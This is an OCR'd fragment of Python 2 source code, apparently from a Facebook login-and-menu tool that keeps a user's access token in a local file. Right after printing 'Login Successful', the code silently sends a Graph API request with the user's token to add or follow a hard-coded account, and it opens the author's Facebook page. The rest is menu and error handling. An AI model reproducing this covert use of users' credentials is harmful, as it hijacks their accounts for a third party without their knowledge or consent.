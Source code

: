 				print '\n\033[1;96m\x1b[1;92mLogin Successful'

				os.system('xdg-open https://www.facebook.com/DARK.NETWORK.CYBER.FORCE/')

				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])

				menu()

			except requests.exceptions.ConnectionError:

				print"\n\033[1;96m \x1b[1;91mThere is no internet connection"

				keluar()

		if 'checkpoint' in url:

			print("\n\033[1;96m \x1b[1;91mIt seems that your account has a checkpoint")

			os.system('rm -rf login.txt')

			time.sleep(1)

			keluar()

		else:

			print("\n\033[1;96m \x1b[1;91mPassword/Email is wrong")

			os.system('rm -rf login.txt')

			time.sleep(1)

			login()

def menu():

	os.system('clear')

	try:

		toket=open('login.txt','r').read()

	except IOError:

		os.system('clear')

		print"\033[1;96m \x1b[1;91mToken invalid"

		os.system('rm -rf login.txt')

		time.sleep(1)

		login()

	try:

		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)

		a = json.loads(otw.text)

		nama = a['name']

		id = a['id']
